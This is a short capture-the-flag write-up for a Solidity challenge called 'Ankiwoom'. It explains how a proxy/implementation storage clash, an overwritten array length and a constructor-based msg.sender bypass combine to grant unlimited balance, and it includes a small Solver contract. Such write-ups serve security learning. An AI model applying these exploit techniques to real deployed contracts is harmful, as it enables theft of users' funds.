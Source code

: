 # Ankiwoom

- Storage layout confict/difference between proxy and implentation. 
- Overwrite the .length of the donaters arrays, giving us almost arbitrary write in storage.
- Bypassing the msg.sender checks using contract constructor

```sol
contract Solver {

    constructor(address target){
        Investment siceme = Investment(target);
        siceme.mint();
        siceme.buyStock("microsoft", 1);
        siceme.donateStock(address(0x0), "microsoft", 1);
    }
}
```

- Writing to index of balances[msg.sender] with modifyDonater to grant infinite balance, and buy "codegate".


